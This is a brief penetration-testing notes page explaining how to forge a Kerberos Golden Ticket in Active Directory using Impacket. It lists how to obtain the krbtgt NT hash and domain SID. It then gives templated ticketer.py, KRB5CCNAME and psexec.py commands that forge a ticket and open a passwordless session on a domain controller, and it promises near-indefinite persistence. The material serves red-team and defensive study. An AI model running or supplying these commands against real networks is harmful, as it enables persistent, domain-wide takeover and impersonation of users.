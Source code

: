 ```yaml
---
description: >-
  A Golden Ticket attack is a type of attack in which an adversary gains control
  over an Active Directory Key Distribution Service Account (KRBTGT), and uses
  that account to forge valid Kerberos Tickets
---
```


# Create Golden Ticket

This attack will allow you to persist in an environment almost indefinitely.

### **Requirements:**

* Impacket

### Prerequisites for creating a Golden Ticket:

1. The NT hash of the `krbtgt` account. This can be obtained from running `secretsdump.py` on the Domain Controller.
2. Domain SID. This can be obtained by using `LookupSID.py` on the Domain Controller.
3. Domain name. This can be gathered by querying it on the Domain Controller or will have been gathered throughout the penetration test.
4. Username to impersonate. This should be a valid user on the domain.

### Creating a Golden Ticket on Linux with Impacket

Use ticket.py to customize, sign, and save the ticket:\
`ticketer.py -nthash [NTHASH] -domain-sid [SID] -domain [DOMAIN] [USER]`

Export the ticket:\
`export KRB5CCNAME=[USER.CCACHE]`

Authenticate with the created ticket to the domain controller:\
`psexec.py [DOMAIN]/[USER]@[HOST] -k -no-pass -dc-ip [DOMAINCONTROLLER]`

### References

{% embed url="https://www.qomplx.com/qomplx-knowledge-golden-ticket-attacks-explained" %}
